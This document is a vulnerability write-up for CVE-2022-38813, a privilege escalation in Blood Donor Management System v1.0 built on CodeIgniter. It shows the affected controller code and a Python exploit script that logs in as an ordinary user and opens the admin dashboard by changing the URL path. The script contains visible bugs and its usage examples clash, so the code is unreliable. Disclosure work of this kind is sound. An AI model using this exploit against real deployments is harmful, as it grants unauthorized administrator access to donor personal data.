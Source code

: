 ```yaml
---
title: Escaping Boundaries - CVE-2022-38813 - Privilege Escalation in Blood Donor Management System Using CodeIgniter v1.0
author: RashidKhanPathan
date: 2022-08-09 20:55:00 +0800
categories: [Windows]
tags: [exploit writing, Web Exploitation, 0Day]
toc: true
img_path: '/posts/20180809'
---
```



**Description:**
This writeup unveils a security vulnerability (CVE-2022-38813) discovered in Blood Donor Management System v1.0, powered by CodeIgniter. The flaw allows an authenticated user to elevate privileges from a normal user to an administrator by manipulating the 'user' parameter in the URL, leading to unauthorized access and potential data manipulation.

**Introduction:**
Blood Donor Management System, a PHP-based web application utilizing CodeIgniter v1.0, was found to be susceptible to a vertical privilege escalation vulnerability. This writeup details the technical aspects of the vulnerability, the affected components, and provides a Python exploit script for practical demonstration.

**Technical Description:**
The vulnerability stems from improper access restriction in the 'users.php' and 'admin.php' pages, allowing an authenticated user to modify the 'user' parameter in the URL to 'admin'. This manipulation grants unauthorized access to the admin dashboard, enabling the user to view, modify, and delete user data, manage blood groups, and submit reports.

**Affected Components - Source Code:**

In 'users.php':


```php
class Dashboard extends CI_Controller
{
    function __construct()
    {
        parent::__construct();
        if (!$this->session->userdata('uid'))
            redirect('user/login');
    }

    public function index()
    {
        $this->load->view('user/dashboard');
    }
}
```

In 'admin.php':
```php
class Dashboard extends CI_Controller
{
    public function index()
    {
        $this->load->model('admin/Dashboard_Model', 'adminn');
        // Additional code for admin dashboard...
        $this->load->view('admin/dashboard', ['totalusercount' => $totalusercount, 'totalbloodgroupcount' => $totalbloodgroupcount]);
    }
}
```

**Exploit:**
The provided Python script automates the exploitation process. It authenticates a user, then manipulates the 'user' parameter in the URL to 'admin,' granting access to the admin panel.

```python
import argparse
import requests
from termcolor import cprint
import sys
from bs4 import *
color = "green"
cprint("[+] CVE-2022-38813 Authenticated Privilege Escalation in Blood Donor Management System v1.0", color)
cprint("[+] Author: RashidKhan Pathan aka iHexCoder", color)
cprint("[!] Usage: run exploit.py username password payload", color)
cprint("[!] Example: python3 exploit.py admin johndoe@gmail.com Test@123", color)


class PrivilegeEscalation:
    color = "green"

    def __init__(self, username, password, payload):
        self.username = username
        self.password = password
        self.paylaod = payload

    def authentication(self):
        color = "green"
        cprint("[+] Authenticating User", color)
        cprint("[+] Username: " + args.username, color)
        cprint("[+] Password: " + args.password, color)
        cprint("[+] Payload: " + args.payload, color)

        login_url = "http://localhost/blood/user/login"

        data = {
            "email": args.username,
            "password": args.password
        }
        login_response = requests.post(login_url, data=data)

        cprint("[+] Exploiting...Started", color)
        if "/user/login" in login_response.url:
            cprint("[+] Credentials is not Valid", "red")
            sys.exit(1)
        else:
            cprint("[+] Authenticated Successfully as a Normal User ", color)
            cprint("[+] Normal User URL Endpoint " + login_response.url, color)

        url = args.payload
        if args.payload != "admin":
            cprint("[+] Please Add Valid Payload", "red")
            sys.exit(1)

        response = requests.get(f"http://localhost/blood/{url}/dashboard")
        cprint("[+] Exploit Compleated", color)
        cprint("[+] Accessed Admin Panel Successfully " + response.url, color)
        cprint("[+] Copy the URL and Replace with user/dashboard URL with " +  esponse.url, color)
        cprint("[+] After Replacing it You Should see the Bypassed Admin Panel", color)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("username", help="Please Add Username", type=str)
    parser.add_argument("password", help="Please Add Password", type=str)
    parser.add_argument("payload", help="Please Add Password", type=str)
    args = parser.parse_args()

    privilegeEscalation = PrivilegeEscalation
    privilegeEscalation.authentication((args.username, args.password, args.payload))

```

```python
# Usage: python3 CVE-2022-38813.py <username> <password> <payload>
# Example: python3 CVE-2022-38813.py johndoe@gmail.com Test@123 admin
```

**Proof of Concept:**
A video demonstrating the successful exploitation of the vulnerability is provided, showcasing the normal user's transition to the admin panel.

Watch Video

**References:**
- [Software Link](https://phpgurukul.com/blood-donor-management-system-using-codeigniter)
- [Proof of Concept Video](https://drive.google.com/file/d/1iMswKzoUvindXUGh1cuAmi-0R84tLDaH/view?usp=sharing)

**Discovered & Developed by:**
RashidKhan Pathan (iHexCoder), 9 September 2022.
Twitter: @itRashid

